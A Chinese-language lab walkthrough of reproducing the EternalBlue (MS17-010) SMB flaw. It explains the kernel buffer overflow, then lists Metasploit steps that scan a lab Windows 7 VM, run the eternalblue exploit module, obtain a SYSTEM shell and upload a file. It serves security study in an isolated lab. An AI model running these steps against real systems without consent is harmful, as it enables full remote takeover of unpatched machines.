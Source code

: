 # 永恒之蓝（MS17-010）漏洞复现

## 漏洞概述

- **漏洞编号**：MS17-010
- **漏洞名称**：永恒之蓝(EternalBlue)
- **影响范围**: Microsoft Windows 7/2008 及之前未打补丁的版本
- **漏洞类型**: 远程代码执行
- **危险等级**: 严重

## 漏洞成因

**SMB协议**：全称Server Mwssage Block，是一种网络文件共享协议，让计算机可以访问网络上的文件和打印机。

**内核态**：操作系统核心运行的空间，拥有最高权限。SMB服务的工作部分（srv.sys）驱动运行在**内核态**，也就意味着漏洞执行的代码在内核态运行，可以获得最高权限。

**漏洞成因**：Windows内核中的srv.sys驱动未能正确验证客户端发送的特定事务请求（SMB_COM_TRANSACTION）中声称的数据长度与实际接收的数据长度是否一致，导致缓冲区溢出。
攻击链如下：

- **触发溢出**：攻击者发送一个畸形的SMB数据包，其中谎报了后续数据的长度。srv.sys驱动因缺失验证，根据这个虚假的长度分配了内核缓冲区，从而造成缓冲区溢出。

- **篡改指针**：溢出的数据精准地覆盖了一个内核中的数据包接收函数指针，将其值修改为指向一个固定的系统内部共享内存区域（KI_USER_SHARED_DATA，地址为0xFFDF0000）。

- **写入Shellcode**：内核随后处理下一个正常的数据包时，会误以为这是之前那个畸形请求的后续数据。由于指针已被篡改，内核会将这些数据（其中包含攻击者的Shellcode）直接写入到那个固定的系统共享内存区域，而非原本的安全缓冲区。

- **劫持执行流**：该系统共享内存区域中包含一个重要的系统调用返回地址。攻击者写入的Shellcode会覆盖这个地址。

- **获取权限**：当相关的系统调用完成时，CPU会去读取被覆盖的返回地址，转而执行攻击者预设的Shellcode。由于这一切发生在内核态，Shellcode得以以最高的SYSTEM权限运行，从而为攻击者打开一个系统Shell。
> **一句话概括**： Windows SMBv1 服务器处理特殊的请求时，存在内核态的内存拷贝错误，导致攻击者可以发送的恶意数据包，实现远程代码执行，获取系统最高权限。


## 实验环境搭建


| 角色         | 系统版本         | IP 地址       | 备注                        |
| ------------ | ---------------- | ------------- |---------------------------|
| 攻击机 (Kali) | Kali Linux 2024.1 | 192.168.142.128 | 使用 Metasploit 框架，具备nmap工具 |
| 靶机 (Target) | Windows 7 SP1 x64 | 192.168.142.133 | 原版，未打补丁                   |

### 实验准备

- **网络检查**：确保攻击机与靶机位于同一局域网段（通常使用VMware/NAT或桥接模式），并能相互通信。
![img_6.png](img_6.png)

- **靶机设置**：关闭Windows 7靶机的防火墙和自动更新功能，使其处于易受攻击的原始状态。
![img_5.png](img_5.png)![img_4.png](img_4.png)

- **环境验证**：
分别查看攻击机与靶机IP，并互相执行ping命令测试连通性。

![img.png](img.png)![img_1.png](img_1.png)
![img_3.png](img_3.png)![img_2.png](img_2.png)

- **端口扫描**：使用Nmap扫描靶机，探测开放端口，确认445端口（SMB服务）是否开放
![img_7.png](img_7.png)

## 攻击流程
在kali攻击机上启动渗透测试框架
'msfconsole'
![img_8.png](img_8.png)
> msfconsole是启动Metasploit框架的核心命令。Metasploit是一个强大的渗透测试平台，里面集成了大量的漏洞利用模块、 payload和辅助工具。msfconsole 就是打开这个工具箱的命令行界面。


搜索永恒之蓝漏洞模块
'search ms17-010'
![img_12.png](img_12.png)
> 红线标出的是五个功能模块，分别是：
> 
> 漏洞利用模块 (exploit/windows/smb/ms17_010_eternalblue)：主攻击向量。直接利用EternalBlue漏洞进行远程代码执行，获取系统初始访问权限。
>
> 权限扩展模块 (exploit/windows/smb/ms17_010_psexec)：备用攻击方案。在已获取有效账号密码的前提下，通过SMB认证模拟管理员身份执行代码。
> 
> 后门利用模块 (auxiliary/admin/smb/ms17_010_command)：后门命令执行器。在目标已被植入特定后门（如DOUBLEPULSAR）后，直接通过该通道执行单条命令。
> 
> 漏洞扫描模块 (auxiliary/scanner/smb/smb_ms17_010)：安全扫描器。用于无损检测目标主机是否存在MS17-010漏洞，为后续攻击提供依据。
> 
> 后门管理模块 (exploit/windows/smb/smb_doublepulsar_rce)：后门植入与利用工具。可向已存在漏洞的系统植入DOUBLEPULSAR后门，或利用现存的后门执行代码。
> 
> 这里我们主要会用到第一个漏洞攻击模块和第四个扫描模块


选择漏洞扫描，收集信息，验证漏洞
'use auxiliary/scanner/smb/smb_ms17_010'
'set rhosts 192.168.142.133'
'run'
![img_10.png](img_10.png)
> use auxiliary/scanner/smb/smb_ms17_010：选择漏洞扫描模块。该模块属于辅助(auxiliary)类别中的扫描器(scanner)，其作用是检测目标SMB服务是否存在MS17-010漏洞，仅作验证，不执行攻击。
> set rhosts 192.168.142.133：设置目标参数。rhosts (Remote Hosts) 参数用于指定要扫描的远程靶机IP地址。
> run：执行扫描。启动当前模块，开始对目标进行漏洞验证。
> 结果显示vulnerable，可以开始下一步攻击

切换到攻击模块，设置靶机IP开始攻击
'use exploit/windows/smb/ms17_010_eternalblue'
'set rhosts 192.168.142.133'
'run'
![img_11.png](img_11.png)
win!

接下来获取靶机cmd
'shell'
查看详细网络信息与权限级别，靶机系统信息等
![img_13.png](img_13.png)
![img_17.png](img_17.png)
![img_18.png](img_18.png)

退出shell界面，上传我们提前准备好的文件并验证
'upload /home/kali/Desktop/test c:\\'
'cat c:\\test'
![img_14.png](img_14.png)
打开靶机查看
![img_15.png](img_15.png)
![img_16.png](img_16.png)
成功！


